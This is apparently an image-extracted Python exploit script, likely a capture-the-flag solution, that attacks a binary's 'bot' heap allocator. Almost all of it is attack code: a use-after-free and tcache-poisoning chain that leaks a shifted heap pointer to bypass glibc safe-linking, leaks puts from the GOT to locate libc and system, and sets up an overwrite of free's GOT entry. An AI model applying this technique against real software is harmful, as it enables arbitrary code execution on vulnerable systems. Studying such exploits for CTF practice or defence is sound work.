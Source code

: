 ```python
allocate_bot(0, 16, b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
allocate_bot(1, 16, b'bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
allocate_bot(2, 32, b'cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc')
allocate_bot(3, 32, b'dddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd')

# deallcoate bot id 0 
deallocate_bot(0)

# allocate bot 0 passing only \xff to get his metadata (L shifted)
allocate_bot(0, 16, b'\xff')

# leak L shifted by 12
leaked_L_shifted = call_atttack_function_to_leak_data(0)
print(p64(leaked_L_shifted))

# to bypass the safe linking 
xored_puts_address = puts_got ^ leaked_L_shifted

# deallocate bot id 0
deallocate_bot(0)

# deallocate bot id 1
deallocate_bot(1)

# overwrite xored put address in the deallocated bot id 1 
change_deallocated_bot(1, xored_puts_address, b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff')

# allocate bot id 0 we need it because malloc uses this implementation, the first malloc will not return the address of leaked puts
allocate_bot(0, 16, b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff')

#allocate bot id 1 to leak the puts real address
allocate_bot(1, 16, b'\xff')

leaked_puts = call_atttack_function_to_leak_data(1)

print('xored puts address:', p64(xored_puts_address))
print('leaked puts address:', p64(leaked_puts))

libc_base = calculate_libc_base(leaked_puts)
system_real_address = calculate_system_address(libc_base)


#ghidra in section .got.plt
free_got = 0x404148

# choose an aligned address near free_got to overwrite it indirectly -> free is 0x404148
aligned_address = 0x404140

# overwrite the chosen aligned address with the system address indirectly
deallocate_bot(2)
deallocate_bot(3)

# Write the xored system address to the aligned address
change_deallocated_bot(3, aligned_address ^ leaked_L_shifted, b'\xff')


#change_deallocated_bot(3, xored_free_address, b'\x00' * 8 + b'\xff' )
```